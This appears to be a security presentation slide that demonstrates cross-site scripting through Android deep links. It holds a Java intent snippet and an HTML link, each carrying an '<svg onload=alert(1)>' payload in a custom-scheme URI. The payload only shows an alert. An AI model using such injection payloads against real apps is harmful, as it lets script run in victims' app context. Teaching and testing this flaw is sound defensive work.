

# Deep Link XSS Example
Proof of concept with Java
Uri uri = Uri.parse("appschema://<svg onload=alert(1)>");
Intent startDownloadIntent = new Intent(Intent.ACTION_VIEW, uri);
startActivity(startDownloadIntent);

Proof of concept with html page
<html>
<a href="appschema://<svg onload=alert(1)>">XSS PoC</a>
</html>